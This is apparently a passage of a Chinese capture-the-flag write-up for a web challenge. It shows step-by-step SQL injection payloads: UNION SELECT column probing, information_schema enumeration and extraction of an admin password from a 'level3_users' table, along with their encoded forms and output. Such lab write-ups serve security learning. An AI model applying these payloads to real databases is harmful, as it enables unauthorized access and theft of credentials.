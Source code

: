 显示位还显示的Admin的信息，那找个数据库中没有的显示。
```
Admin' union select 1,2,3,4,5,6,7#
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDc3MjA0MTA0MTc4MTQ2MDA5MTg4MDI2MDA5MTg2MDAyMjMzMDc0MDYwMTk5MjM3MjE5MDg3MjQ2MTU0MjA4MTc2MDk2MTMxMjIwMDUxMDU5
```

```
max' union select 1,2,3,4,5,6,7#
MDA2MjE0MDI3MjQ4MTk0MjUyMTQ1MDgxMjA1MTExMjUzMTQzMDc2MTYzMDI2MDA2MTcxMDY1MTcyMDcwMDYzMTk5MjM2MjE5MDgwMjQ2MTU1MjA4MTc5MDk2MTMwMjEx
```
得到的回显位为：2,4,5,6,7。

	Show userdetails: <br>
					<table style="border-collapse:collapse; border:1px solid black;">
						<tr>
							<td>Username: </td>
							<td>2</td>
						</tr>
						<tr>
							<td>First name: </td>
							<td>6</td>
						</tr>
						<tr>
							<td>Name: </td>
							<td>7</td>
						</tr>
						<tr>
							<td>ICQ: </td>
							<td>5</td>
						</tr>
						<tr>
							<td>Email: </td>
							<td>4</td>
						</tr>
					</table>	
				<br><br><br>


```
# max' union select 1,2,3,4,5,6,(column_name) from information_schema.columns where table_name='level3_users' limit 0,1#
MDA2MjE0MDI3MjQ4MTk0MjUyMTQ1MDgxMjA1MTExMjUzMTQzMDc2MTYzMDI2MDA2MTcxMDY1MTcyMDcwMDYzMTk5MjM2MjE5MDgwMjQ2MTU1MjA4MTc5MDk2MTU3MTQ3MTA3MTE2MTY1MTM5MjA0MTQ0MTEyMDM3MTg5MTUzMTA0MjE4MTcwMTc4MDE1MTk4MDAyMTUxMTIwMDg2MTMzMTMyMDY5MDQ3MTY0MTkwMDM3MDU2MTI0MTQwMDM2MDc5MTI1MTIyMTExMTQ5MTMyMDY2MTQ3MjA1MDcxMDQ3MTkzMjE0MTE3MTIzMTk5MDg3MTE5MTUzMDMzMTU3MjA1MDE3MDQ3MjIzMDU4MjQ0MTg3MDI5MTY4MDU4MjA0MjAzMDY2MjAyMDA1MDQ3MTMxMDI4MTY3MDk4MjE2MjQ0MjE3MTQwMjQ2MjAxMTg4MTk3MDQ2MDA3MTUzMDM3MTQ4MjA4
```
尝试暴列名出错。

	Show userdetails: <br>Some things are disabled!!!
还好知道字段，`password`，直接泄露即可。

```
# max' union select 1,2,3,4,5,6,password from level3_users where username='Admin'#
MDA2MjE0MDI3MjQ4MTk0MjUyMTQ1MDgxMjA1MTExMjUzMTQzMDc2MTYzMDI2MDA2MTcxMDY1MTcyMDcwMDYzMTk5MjM2MjE5MDgwMjQ2MTU1MjA4MTc5MDk2MTk3MTQ1MTE5MTA3MTY3MTM3MjA4MTcxMDYyMDM0MTYyMTQ3MDQ0MjE4MTYwMTY1MDIyMjA2MDc4MjA1MDczMDY5MTUzMTQ3MDkwMDYxMjQwMTYwMDM0MDUxMDgxMTU0MTAzMDgyMTA3MTE0MTI0MjEzMTM0MDY0MTU0MTMzMDEzMDAwMjE0MTU1MTA3MTI1MTMzMDA2
```
```
admin
thisisaverysecurepasswordEEE5rt
```
代码可以写作：
```
$payload2 ="max' union select 1,2,3,4,5,6,password from level3_users where username='Admin'#";
```